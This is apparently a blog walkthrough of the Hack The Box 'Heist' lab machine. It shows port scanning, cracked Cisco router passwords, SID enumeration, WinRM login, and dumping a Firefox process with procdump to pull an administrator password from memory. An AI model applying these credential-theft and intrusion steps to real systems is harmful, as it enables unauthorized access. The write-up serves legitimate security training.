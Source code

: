 ```yaml
---
title: "Hackthebox Heist Walkthrough"
layout: "post"
categories: [Hackthebox, Windows]
tags: ["procdump", "HackTheBox", "Writeup"]
---
```

![Heist](/assets/img/posts/heist.png)

## Reconnaissance

As always we do, let's start with nmap scanning.

```bash
Ap4sh@kali:~/htb/heist$ sudo nmap -sC -sV -oN nmap/hesit-top-ports 10.10.10.149
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 06:18 EDT
Nmap scan report for 10.10.10.149
Host is up (0.076s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 12m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-03T10:31:08
|_  start_date: N/A


```

We have 3 ports open which are default http and smb service ports. On smb we cannot do anything for now. It's required authentication. 

There is a login page which is written in PHP on HTTP service. We can visit there by following 80 port. Doing fuzzing process we can see what kind of files we reach on web server.

```bash
Ap4sh@kali:~/htb/heist$ gobuster dir -u http://heist.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php,txt,html,sql
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://heist.htb
[+] Threads:        10
[+] Wordlist:       /opt/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html,sql
[+] Timeout:        10s
===============================================================
2021/07/03 06:33:13 Starting gobuster
===============================================================
/login.php (Status: 200)
/images (Status: 301)
/js (Status: 301)
/index.php (Status: 302)
/css (Status: 301)
/attachments (Status: 301)
/. (Status: 302)
/errorpage.php (Status: 200)
/issues.php (Status: 302)

```

There is a lot file that we can check but once we login as guest user, we'll see a conversation between Hazard and Support Admin. Once we click attachment link we can see there are usernames and encoded passwords which are seem like belonging to Cisco Router config file. After cracking the passwords we'll get following decoded passwords.

```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91 -> stealth1agent
0242114B0E143F015F5D1E161713 -> $uperP@ssword
02375012182C1A1D751618034F36415408 -> Q4)sJu\Y8qz*A3?d
```

We can list shared folders with `Hazard` and `stealth1agent` credentials but we have no access on these folders.

```bash
Ap4sh@kali:~/htb/heist$ smbmap -H 10.10.10.149 -u 'Hazard' -p 'stealth1agent'
[+] IP: 10.10.10.149:445        Name: heist.htb                                         
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC


```


For more enumeration I tried enum4linux tool but `SID` is required for these creds. After that I used one of the impacket tools called `lookupsid.py` for user enumeration and found there are many user such as Chase, Jason etc.

```bash
Ap4sh@kali:~/htb/heist$ python3 lookupsid.py Hazard:stealth1agent@heist.htb
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at heist.htb
[*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

Now we can try passwords that we found before on these users. On smb I could not get access again. After a full port scanning we can see there is another port which is 5985.

```bash
Ap4sh@kali:~/htb/heist$ nmap -sV -p- heist.htb -oN nmap/heist-all-ports -v
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 07:18 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 07:18
Nmap scan report for heist.htb (10.10.10.149)
Host is up (0.074s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```


## Getting Initial Access

We can try to get initial access with the usernames and passwords on this port via evil-winrm. 

![Getting Access](/assets/img/posts/heist/access.png)

After some searching on the box I saw there is firefox.exe and there are running processes that belong to firefox.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> ps                                                                                                       
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                                                                                                                                      
-------  ------    -----      -----     ------     --  -- -----------                                                                                               
    355      25    16352     297340       0.09   6100   1 firefox          
   1049      77   206088     559208       7.91   6644   1 firefox          
    347      19     9968      34768       0.08   6752   1 firefox
    401      36    51716     111188       1.14   6880   1 firefox
    378      30    35104      71328       0.88   7152   1 firefox  
```

Let's upload `procdump` and dump one of these process.

```bash
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> upload procdump64.exe                                                                                                                                                          
Info: Uploading procdump64.exe to C:\Users\Chase\Desktop\procdump64.exe                    
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> dir                           
Mode                LastWriteTime         Length Name             
----                -------------         ------ ----
-a----         7/3/2021   5:24 PM         384888 procdump64.exe             
-a----        4/22/2019   9:08 AM            121 todo.txt   
-a----        4/22/2019   9:07 AM             32 user.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop>./procdump64.exe -accepteula -ma 6100

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[17:40:02] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp
[17:40:02] Dump 1 writing: Estimated dump file size is 298 MB.
[17:40:03] Dump 1 complete: 298 MB written in 0.4 seconds
[17:40:03] Dump count reached.


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Chase\Desktop> download firefox.exe_210703_174002.dmp
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_210703_174002.dmp to firefox.exe_210703_174002.dmp

```

## Privilege Escalation

After got this dump, we can see human readable text with string command and we can search whatever we want.

```bash
Ap4sh@kali:~/htb/heist$ strings firefox.exe_210703_174002.dmp | grep -n "login_password"
844:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2304:RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
2356:MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

As final step, once we use this password with Administrator account we can get full privilige on the system.

![Getting Admin Privileges](/assets/img/posts/heist/getting_admin.png)
